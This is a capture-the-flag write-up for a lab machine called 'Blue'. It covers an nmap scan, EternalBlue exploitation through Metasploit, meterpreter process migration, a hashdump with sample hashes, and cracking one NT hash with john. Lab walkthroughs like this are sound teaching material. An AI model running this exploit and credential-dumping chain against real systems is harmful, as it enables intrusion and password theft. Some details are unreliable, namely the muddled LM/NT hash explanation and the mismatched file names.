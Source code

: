 ```yaml
---
tags: [Rooms]
title: Blue
created: '2020-05-15T19:05:38.630Z'
modified: '2020-05-15T22:59:20.175Z'
---
```


# Blue

Nmap scan of the machine:

```
nmap -sV -sC -p- 10.10.217.18 -T4 -v
```

We discover that TCP ports 135, 139, 445 and 3389 are open.
We can proceed to use the **vuln** scripts in nmap to find out if the target may be vulnerable to any type of vulnerabilities:

```
sudo nmap --script vuln 10.10.217.18 -T4 -v
```

The target machine seems to be vulnerable to **ms17-010** (commonly known as Eternalblue).

We can launch Metasploit with `exploit/windows/smb/ms17_010_eternalblue`
We just need to set the RHOSTS value and run the exploit.
This way we obtain a simple shell as **nt authority/system**

Once we have this shell, we can background it and use the post module to upgrade it to a meterpreter. This can be done with `post/multi/manage/shell_to_meterpreter`
We just need to set the SESSION value and run the exploit.

We now have a meterpreter session running as **nt authority/system**. However, our process is not running as this user. We can use **ps** to list all the available process and note down the PID of a process running as **nt authority/system**.
We can then migrate to this process:

```
migrate <PID>
```

We can now use the command `hashdump` to dump all the users hashes.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Note that the hash for **Jon** contains a third string that starts with *aad3b* which means it's not a valid LM hash.
This is an NT hash and we can crack it using **john**.

We just need to copy the whole line for the user Jon and save it to a file like `hast.txt`
Then, we can proceed to use **john** to crack it:

```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hast.txt
john --show --format=nt show.txt
```

The password for the user **Jon** is `alqfna22`.

We can now proceed to use the meterpreter session with admin rights to search for the three flags.
A useful command to search for .txt files in meterpreter is:

```
search -f *.txt
```

This will display all the .txt files found from the root folder (C:).
In this case, the flags are located at:

`C:\flag1.txt`
`C:\Windows\System32\config\flag2.txt`
`C:\Users\Jon\Documents\flag3.txt`
